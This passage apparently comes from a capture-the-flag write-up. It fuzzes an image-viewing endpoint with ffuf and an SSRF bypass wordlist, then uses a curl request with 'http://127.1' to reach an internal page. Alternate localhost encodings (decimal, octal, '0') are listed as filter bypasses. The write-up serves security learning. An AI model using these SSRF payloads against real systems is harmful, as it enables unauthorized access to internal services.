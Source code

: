 ```bash
❯ ffuf -u http://$IP:8080/view_image -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://FUZZ" \
     -w ssrf.txt -fw 27
# Fuzzing the URL itself with our bypass list.

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.22.48:8080/view_image
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/ssrf.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : www=http://FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 27
________________________________________________

[::]:80/                [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 105ms]
[::]:25/ SMTP           [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 116ms]
[::]:3128/ Squid        [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 116ms]
2130706433/             [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 117ms]
127.0.0.0               [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 130ms]
0                       [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 137ms]
...
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 77ms]
...
```

We have multiple winners! Payloads like `127.1`, `0`, and `017700000001` (the octal representation of 127.0.0.1) all bypassed the filter. Let's use `127.1` because it's nice and clean.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1"
<HTML>
<body bgcolor="gray">
<h1>London brigde</h1>
<img height=400px width=600px src ="static/1.webp"><br>
<font type="monotype corsiva" size=18>London Bridge is falling down<br>
...
</font>
</body>
</HTML>
```
